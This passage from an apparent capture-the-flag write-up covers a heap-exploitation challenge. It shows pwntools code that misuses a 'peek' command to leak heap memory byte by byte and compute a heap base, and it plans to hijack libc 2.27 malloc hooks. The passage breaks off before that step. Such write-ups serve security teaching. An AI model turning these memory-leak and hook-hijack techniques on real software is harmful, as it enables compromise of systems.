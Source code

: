 and notice conveniently there's a free chunk right after, we can read at any offset and leak the heap's address. since we can only read one byte at a time, I wrote this poorly written function that allows us to read 8 byte from an offset

```python
def read(idx) -> str:
    ret = []

    for i in range(8):
        io.sendlineafter(b'command:', f'peek {idx+i}'.encode())
        io.recvline()
        res = int(io.recvline().strip())
        if res < 0:
            res = struct.pack('>l', res)[-1]
        res = hex(res)
        res = res.replace('0x', '').replace('-', '')
        if len(res) == 1:
            res = '0' + res
        ret.append(res)
    
    return ''.join([x[::-1] for x in ret])[::-1]
```

calculate its offset from GDB we then can leak it and calculate its offset again to get our read's base address ( i.e the address where our string is located, since every offset will be relative from it )

```python
heap = int(read(0x58), 16) + 0x11e70 + 0x10
log.success('heap: %#x', heap)
```

next thing that came into my mind is that since libc is 2.27, the hooks are still within the library so we can hijack it, but how we have no control over what chunks are allocated and free'd.&#x20;

I did try to look at the decompiled version binary and notice a `deconstructor` called on one or mote of the string variables

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>
